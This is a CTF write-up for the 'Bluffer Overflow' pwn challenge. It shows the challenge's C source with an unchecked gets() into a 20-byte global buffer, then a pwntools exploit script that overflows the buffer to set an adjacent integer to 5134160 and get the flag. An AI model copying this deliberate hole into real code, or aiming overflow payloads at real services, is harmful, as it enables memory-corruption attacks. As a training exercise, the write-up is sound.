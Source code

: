 ## Bluffer Overflow 🩸

```
Author: rennfurukawa

Maybe it's your first time pwning? Can you overwrite the variable?

nc ctf.tcp1p.com 17027
```
**Attachment**: [dist.zip](release/dist.zip)

We were given a zip file that contain a C source code.

<details open><summary>chall.c</summary>
    
```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
    
</details>
    
Based by the provided code, the program will ask the user to input a data using the `gets()` function and it will be saved into the `buff` global variable. Since the `gets()` doesn't do a boundaries check, so it will cause a Buffer Overflow vulnerability. Let's take a closer look to the `buffer()` function, there's a check if a value of buff2 variable is equals to 5134160, it will call give us the flag. 
    
We can exploit this Buffer Overflow vulnerability to overwrite the global variable `buff2` with 5134160 by filling the global variable `buff` first with 20 bytes of dummy data (the variable `buff` can only hold up to 20 bytes of data `char buf[20]`).
    
Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 17027
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *buffer+94
            """
            gdb.attach(io, gdbscript=cmd)
    
    p = b""
    p += b"A"*20 # char buff[20]
    p += p64(5134160) # new value for buff2

    io.sendline(p)
    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

![PWN3D](images/614ea1a435ef3dde4c85a85530739c24333cc63f2e7df445bff0b5d867211bf4.png)  


    
**Flag:** TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}